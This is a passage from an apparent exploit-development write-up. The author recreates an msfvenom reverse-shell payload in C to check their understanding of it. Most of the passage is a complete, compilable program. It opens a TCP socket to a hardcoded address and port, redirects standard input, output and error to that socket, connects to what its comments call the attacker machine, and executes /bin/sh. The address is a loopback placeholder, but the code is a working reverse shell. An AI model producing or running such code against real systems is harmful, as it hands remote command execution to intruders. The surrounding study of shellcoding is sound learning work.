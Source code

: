 Now that the functions used are known in details, I wanted to recreate the payload from msfvenom in C. This step is not really required, but it acts as a verification of my understanding. The following is the PoC in C.

```c
// Author   :  Alessio Parzian
// Filename : rev_shell.c

// Compile with:
//     gcc rev_shell.c -o rev_shell

#include <sys/socket.h>
#include <arpa/inet.h> 
#include <unistd.h>

int main()
{

	// Define address to connect and port
	char* ip = "127.0.0.1";
	int port = 1234;

	// Create the socket (man socket)
	// AF_INET for IPv4
	// SOCK_STREAM for TCP connection
	// 0 leaves it up to the service provider for protocol, which will be TCP
	int host_sock = socket(AF_INET, SOCK_STREAM, 0);

	// Redirect stdin, stdout, stderr to the socket file descritor just created
	dup2(host_sock, 0);
	dup2(host_sock, 1);
	dup2(host_sock, 2);

	// Create sockaddr_in struct (man 7 ip)
	struct sockaddr_in host_addr;

	// AF_INET for IPv4
	host_addr.sin_family = AF_INET;
	
	// Set port number to 1234, set to network byte order by htons
	host_addr.sin_port = htons(port);

	// Convert ip from text to binary and fill the related struct
	inet_pton(AF_INET, ip, &host_addr.sin_addr);

	// Connect to attacker machine
	connect(host_sock, (struct sockaddr *) &host_addr, sizeof(host_addr));

	// Execute bash
	execve("/bin/sh", NULL, NULL);

}
````
